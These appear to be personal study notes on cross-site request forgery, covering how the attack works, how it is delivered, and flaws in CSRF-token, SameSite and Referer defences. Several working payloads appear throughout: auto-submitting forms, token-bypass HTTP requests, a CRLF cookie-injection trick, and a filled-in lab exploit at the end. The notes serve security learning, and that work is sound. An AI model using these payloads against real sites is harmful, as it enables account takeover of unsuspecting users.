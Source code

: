 - [General Concept](#general-concept)
  - [Example](#example)
- [Constructing and Delivering](#constructing-and-delivering)
- [Prevention](#prevention)
  - [CSRF Tokens](#csrf-tokens)
    - [Common Flaws](#common-flaws)

# General Concept
Cross-site request forgery is a vulnerability that allows attackers to induce users to perform
actions they don't intend to perform. It will enable partial circumvention of the same origin policy
that prevents sites from interfering with each other. 

In a successful attack, the victim unintentionally carries out an action, such as changing the email 
address on their account, changing their password, or transferring funds. The attacker might be able to gain
full control over the user's account, and if that account is privileged, the full application. 

There are three conditions that enable a CSRF attack:
- **Relevant action.** There needs to be an action within the app that the attacker has a reason to induce.
- **Cookie-based session handling.** Performing the action needs to involve issuing 1+ HTTP requests, and the
  application relies solely on session cookies to id the user who made the request. 
- **No unpredictable request parameters.** The requests that perform the action can't contain parameters
  whose values the attacker can't determine/guess. 

## Example
Suppose there is an app that has a function for the user to change the email address for their account. 
When the user performs this action, they make an HTTP request like the following:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=asdfghjkl

email=weiner@normal-user.com
```
Then the attacker can construct a web page with the following HTML:

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
If a user visits the attacker's webpage, then:
- The attacker's page will trigger an HTTP request to the vulnerable site
- If the user is logged on the vulnerable site, their browser will auto-include their session cookie in
  the request (assuming SameSite cookies aren't being used)
- The vulnerable website will process the request the normal way, treating it as though it were made by
  the victim, and change their email address

Note that CSRF is normally talked about concerning cookie-based session handling, but it also 
comes up in other contexts where the app auto adds some user credentials to requests, like 
HTTP Basic auth and certificate-based auth. 

# Constructing and Delivering
Construct with:
- Automated tools: Burp Suite Pro
- Manual writing (cumbersome)

The delivery mechanisms are essentially the same as for reflected XXS. Typically, the attacker will 
place the malicious HTML onto a website they control and then induce victims to visit that site. 

Some simple CSRF exploits employ the GET method and can be fully self-contained with a single URL on the
vulnerable site. In this situation, the attacker might not need to have an external site. 

# Prevention
Most common defenses:
- **CSRF tokens** - a unique, secret, and unpredictable value that is generated by the server-side app and
  shared with the client. When performing a sensitive action, the client must include the correct CSRF
  token in the request, which makes it hard to construct a valid request on behalf of the victim.
- **SameSite cookies** - SameSite is a browser security mechanism that determines when a site's cookies are
  included in requests originating from other sites. This prevents an attacker from triggering certain
  actions cross-site. As of '21, Chrome enforces SameSite restriction by default. 
- **Referer-based validation** - Some apps use the HTTP Referer header to verify the request originated
  from the app's domain. Generally less effective than CSRF token validation.

## CSRF Tokens
A common way to share CSRF tokens with the client is to include them as a hidden parameter in an HTML form.

```
Example:

  <form name="change-email-form" action="/my-account/change-email" method="POST">
      <label>Email</label>
      <input required type="email" name="email" value="example@normal-website.com">
      <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
      <button class='button' type='submit'> Update email </button>
  </form>
```

When implemented correctly, CSRF tokens make it difficult to construct a valid request on behalf of a 
victim, as they won't be able to predict the correct value and include it in the malicious request. 

Note that CSRF tokens don't have to be sent as hidden parameters in a `POST` request. Some apps place
them in headers. The way tokens are transmitted has a significant impact on the security of a mechanism as 
a whole. 

### Common Flaws
- **Request method** - Some apps only validate the token when the request uses the POST method, rather
  than POST and GET. If this is the case, the attacker can switch to the GET method to bypass the
  validation

  ```
  Example:
    GET /email/change?email=pwned@evil-user.net HTTP/1.1
    Host: vulnerable-website.com
    Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
  ```
- **Token Presence** - Some apps skip validation if the token is omitted. In this case, the attacker
  can remove the entire parameter containing the token to bypass the validation and deliver the attack
  ```
  Example:
    POST /email/change HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25
    Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

    email=pwned@evil-user.net
  ```
- **Not tied to session** - Some apps don't validate that the token belongs to the same session as the
    user making the request, instead maintaining a global pool of tokens that it issued and accepts.
    In this case, the attacker can log in to the app with their own account, get a valid token, and
    then feed that token to the victim
- **Tied to non-session cookie** - A variation of the preceding, some apps tie the token to a cookie, but
    not to the same cookie that is used to track sessions. This easily happens when the app uses different
    frameworks for session handling and CSRF protection and they aren't integrated
    ```
    Example:
      POST /email/change HTTP/1.1
      Host: vulnerable-website.com
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 68
      Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

      csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
    ```
    This is harder to exploit, but it's vulnerable. If the site in any way allows the attacker to set a
    cookie in the victim's browser, then it's possible. Any other app within the same DNS domain can
    potentially be leveraged to set cookies in the target app. The attacker can log in using their own
    account, get a valid token/cookie set, place their cookie in the victim's browser, and feed their token
    into the CSRF attack
  ```
  Example:
  <html>
      <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
          <input type="hidden" name="email" value="pwned@evil-user.net" />
          <input type="hidden" name="csrf" value="fake" />
        </form>
        <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
      </body>
  </html>
  ```    
- **Duplicated cookie** - A variation of the preceding, some apps don't have any server-side record of
  issued tokens and instead duplicate each token within a cookie and a request parameter. When a subsequent
  request is validated, the app just verifies that the token in the request parameter matches the value
  submitted in the cookie. This is sometimes called the "double submit" defense and is advocated because
  it's simple and avoids the need for server-side state
  ```
  Example:
    POST /email/change HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 68
    Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

    csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
  ```
  In this case, the attacker can perform an attack if the website contains any cookie setting functionality.
  They don't need a valid token of their own, just to invent a token and then leverage the cookie-setting
  and feed their token in the attack
    
    
<form action="https://0ae6006103abdd5b892df14200b1004a.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
<input type="hidden" name="csrf" value="WBwHgNhg1mF3KBOcjE9gVXXDCHAmHbuO" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
